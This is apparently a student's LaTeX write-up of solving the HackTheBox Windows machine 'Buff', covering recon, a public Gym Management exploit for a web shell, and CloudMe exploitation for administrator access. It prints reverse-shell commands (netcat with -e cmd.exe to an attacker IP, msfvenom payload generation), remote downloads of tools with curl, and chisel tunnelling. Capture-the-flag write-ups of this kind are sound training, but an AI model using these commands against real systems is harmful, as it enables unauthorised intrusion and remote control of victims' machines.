\documentclass[../main.tex]{subfiles}

\begin{document}

\section{HackTheBox Buff}

First, we decided to take a machine, which comes from the easy category. I chose a Windows machine, called "Buff". 


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_1_Boyan.PNG}

The purpose of the machine is to identify the user flag and the root flag. Each machine is constructed differently, so I have to find out for myself how to achieve my goal.  

\subsection{Recon}
My first step in my research is to gather as much information as possible. I start to do this by performing a nmap scan. 

\begin{lstlisting}
sudo nmap -sV -sC -oA buff 10.10.10.198
\end{lstlisting}


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_2_scanning_Boyan.PNG}
Once we have carried out the scan, we can already get some information. We can see that the machine is running on Windows. This machine is built together with Apache, OpenSSL and PHP. This allows us to assume that there is an open site to which we can surf. We can also know that if we surf to the HTTP page, the first title of the page would be "mrb3n's Bro Hut".


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_3_Boyan.png}

We take a look at the site on port 80. We can see that the site is based on the sale of fitness programmes. Once we continue to inspect the code. We can see that there are some JavaScript scripts available. In general, I didn't notice anything that could help me to do further research on the site. 

\subsection{Foothold}


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_4_sql_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_4.1_sql_Boyan.PNG}
After looking at the site I could not immediately find anything that would help me with further research. So I decided to perform an SQL-injection as I think that there should be a database.

After performing the SQL-injection, I received more warnings than information. So I came to the conclusion that there is no SQL-database or it is well secured so I can't get any information from it.


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_5_Boyan.PNG}

After a while I couldn't do much, so I went to the HTB forum site. I read that there is something on the site and I needed to go through all pages. After a while, I started looking up words in Google and ended up with "Gym Management Software 1.0". This gave me a result. There is an exploit on the exploit-db. 


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_8_Boyan.PNG}

This exploit is a python script. Which I have to execute myself in the terminal. It is a web shell that could connect me to the machine. 

\begin{lstlisting}
python 48506.py http://10.10.10.198:8080/
\end{lstlisting}


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_9_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_10_Boyan.PNG}

When you run the script with python, the URL must be provided in order to connect. After executing the command. You will see that we have entered the web shell of the Buff machine. 

Now we can start requesting the user with a simple "whoami" execution. Then we see that the user is called "shaun"

\subsection{User flag}. 


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_11_Boyan.PNG}

Now the intention is to search for the user flag. After researching some directories I found a txt file in \lstinline{"C:\user\shaun\Desktop"}. This should be the user flag. 

\subsection{Root flag}

Now that the user flag has been found, the next step is to find the root flag. 

Executing the commands on the web shell is not so simple as I have to do copy paste every time and I wanted a solution, so I read in the HTB forum that a native shell could be the solution. So I looked this up and decided to use netcat.

The first problem I got is how to copy the netcat program onto the buff machine. I have found that you can do this easily by starting an HTTP server on your local machine. Then we execute a command on the Buff machine to copy the netcat. In order to connect, I also need to know what the IP of the VPN is.

Commands:
\begin{lstlisting}
curl http://10.10.14.71/nc.exe -o nc.exe //target machine
sudo python3 -m http.server 80 //local machine
\end{lstlisting}


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_14_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_12_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_15_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_13_Boyan.PNG}

The first picture shows what my IP is from the VPN. 
After executing the command with the correct IP address, you can see that the netcat program has been copied successfully. 

Commands:
\begin{lstlisting}
nc.exe -e cmd.exe 10.10.14.71 1234 //target machine
sudo nc -nvlp 1234 //local machine
\end{lstlisting}

Then we execute the netcat command to connect to the shell. On the local machine, you must first listen to port 1234. 


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_26_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_27_Boyan.PNG}

Once we have carried out the commands. As you can see from the picture, we are connected. 


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_16_Boyan.PNG}

Then, after long research with enumeration, I found that an unusual programme is running. It is about the CloudMe.exe. CloudMe is a file storage service operated by CloudMe AB that offers cloud storage, file synchronization and client software. So I was thinking of using the CloudmMe to connect to the machine in order to obtain administrator rights. But I did not know how to do this. Since I don't know which program to use. At first, I thought of connecting with SSH but this gave a connection timeout each time. 


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_17_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_18_Boyan.PNG}

I have also discovered that there is an exploitation of CLoudMe. As you can see in the picture. This script is made with Python. So I thought I should run this script in order to connect with a web shell, but I had no clue how to connect with the buff machine. So I started reading forms again to get some hints.

Then I came across chisel. Chisel is a TCP port forwarding tool is mainly useful for passing through firewalls and it can be used to provide a secure endpoint into your network.

Commands:
\begin{lstlisting}
sudo python3 -m http.server 80
curl http://10.10.14.71/chisel.exe -o chisel.exe
\end{lstlisting}

In order for this to work, we are going to copy "chisel.exe" to the Buff machine as we did with the netcat. (see the image of netcat)

Commands:
\begin{lstlisting}
chisel server --port 8081 --reverse //local machine
chisel.exe client 10.10.14.49:8081 R:8888:127.0.0.1:8888 //target machine
\end{lstlisting}


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_21_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_22_Boyan.PNG}

Once we have done this we need to start up the chisel server on our local machine. Then the target machine should be able to connect to the chisel server as you see on the images above. 

Finally, we will need to set up a reverse shell which will give us access to the administrator shell. This is done by listening on port 53 (TCP) which will pick up the reverse shell. Also, we would have to run the script so that it could let us connect to the reverse shell. Here I had problems. It did nothing. After searching through the internet I found out that I had to replace my payload to the correct data or payload that had to be sent because it's not the same as the data or payload that I have downloaded in order to make a connection.

Commands:
\begin{lstlisting}
msfvenom -p windows/shell_reverse_tcp LPORT=53 LHOST=10.10.14.71 -f python -v payload //local machine
sudo nc -lvnp 53 //local machine
\end{lstlisting}


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_20_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_23_Boyan.PNG}

So before you run the script you should run the "msfvenom" command. This is going to create a payload that is needed to be replaced in the ClouMe script. Which we must then execute while we are listening on port 53 in order to be able to make a connection. 

Finally after a long way, as you can see above, we are connected to the administrator shell.


\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_24_Boyan.PNG}

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_25_Boyan.PNG}

Now the intention is to find the root flag. After searching through so many directories for a long time, I didn't come up with anything straight away. There way to many of them and I need to come up with something that could be easier to find the root flag. Then I thought of the place where the user flag was stored, this was in the Desktop directory. So I did the same as here and I finally found the root.txt.  

\subsection{Conclusion}

My experience with Hack the Box was in general very challenging. I had a lot of up and downs. By that I mean, I was sometimes really stuck. I always chose the most difficult way while it was easy to do, such as SQL injection, burp and so on.  Because of this I sometimes lost my motivation and had the feeling that this was not I would like to do in the future. But once I started to get further in finding my goal, I started to like it again. 

Finding the user flag was actually easy but at first I went in the wrong direction, but luckily through the HTB forums I was able to move in the right direction, by using Enumeration. Enumeration can take a lot of time if you have to search. But in the end, once I was inside the web shell, I quickly found the user flag.  

The hardest thing to find was, without doubt, the root flag in this case. I really did not know how to start. Eventually, by searching through the folders of the Buff machine and reading forums I started to think more logically about how to connect to a reverse shell or how to connect with a port forwarding tool and so on. So, after a long path, I could find the root flag. 

Finally,  I have learnt a lot about the Hack the Box challenge. I learnt how to start investigating if you want to hack something and I learned a few new tools like "chisel". This made the challenge even more fun because you learn how to use them for different purposes and through this, I expand my knowledge and can use it in the future. Now, after this, it's time to make my own CTF which will be also challenging. 

\end{document}
